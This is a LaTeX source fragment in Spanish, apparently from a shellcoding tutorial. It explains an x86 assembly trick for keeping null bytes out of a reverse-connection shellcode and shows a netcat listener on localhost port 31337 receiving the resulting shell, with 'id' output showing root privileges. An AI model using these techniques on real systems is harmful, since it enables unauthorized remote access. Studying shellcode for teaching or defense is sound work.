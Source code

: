 \documentclass [titlepage, 12pt]{article}
\newcommand{\topfigrule}{\hrule\vspace{4 pt}}
\newcommand{\botfigrule}{\hrule\vspace{4 pt}}
\begin{document}
\lstset{language=[x86masm]Assembler,caption=Soluci\'on a la inserci\'on erronea de un $byte$ nulo,label=fig:nullByteSolution}
\begin{lstlisting}			
		BITS 32
		xor eax, eax
		push DWORD 0x01BBBB7f
		mov WORD [esp+1], ax
		pop eax
\end{lstlisting}

En la segunda l\'inea se almacena la $ip$ en la pila, pero en vez de insertar los $bytes$ nulos, los substituimos por cualquier otro valor que no genere conflictos. En la siguiente l\'inea, se escribe en la pila el contenido del registro $ax$. El registro $ax$ contiene $bytes$ nulos debido a que se ha realizado una correcta inicializaci\'on. Estos $bytes$ nulos se escriben en la posici\'on $esp$+1, lo cual colocar\'a 16 $bits$ -tama\~no del registro $ax$- a cero en la posici\'on $esp$ + 1 $byte$. Como se puede comprobar, en el $shellcode$ de conexi\'on inversa citado en el C\'odigo \ref{fig:reverseASM} ya se ha utilizado esta t\'ecnica.

Para comprobar que el $shellcode$ de conexi\'on inversa funciona correctamente se ha de proceder tal y como se muestra en el C\'odigo \ref{fig:ListeningNetcat} y el C\'odigo \ref{fig:ConnectingToNetcat}.

\begin{listing}[style=consola, numbers=none, caption=Netcat a la escucha, label=fig:ListeningNetcat]	
		newlog@Beleriand:~$ nc -lvv 127.0.0.1 31337
		Connection from 127.0.0.1 port 31337 [tcp/] accepted
		id
		uid=1000(newlog) gid=1000(newlog) euid=0(root),groups=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		pwd
		/home/newlog/Documentos/Shellcoding/Codigos/ReverseConnection/ASMSource
		exit
		newlog@Beleriand:~$ pwd
		/home/newlog
\end{listing}

En el C\'odigo \ref{fig:ListeningNetcat} primero de todo se pone la herramienta Netcat a la escucha de conexiones en el puerto 31337. Una vez se conecta el $shellcode$ de conexi\'on inversa a Netcat, el $shellcode$ lanza una l\'inea de comandos que permite al usuario que ha puesto Netcat a la escucha ejecutar comandos. Acto seguido, se ejecuta el comando $id$ para demostrar que el identificador de usuario efectivo es el del usuario $root$. Despu\'es se ejecuta el comando $pwd$ mientras el usuario dispone de la l\'inea de comandos lanzada por el $shellcode$ y una vez se finaliza dicha l\'inea de comandos se vuelve a ejecutar el comando $pwd$ para demostrar que su salida no es la misma y que, por tanto, los comandos ejecutados por el usuario se estaban ejecutando en la l\'inea de comandos lanzada por el $shellcode$.\bigskip
\end{document}
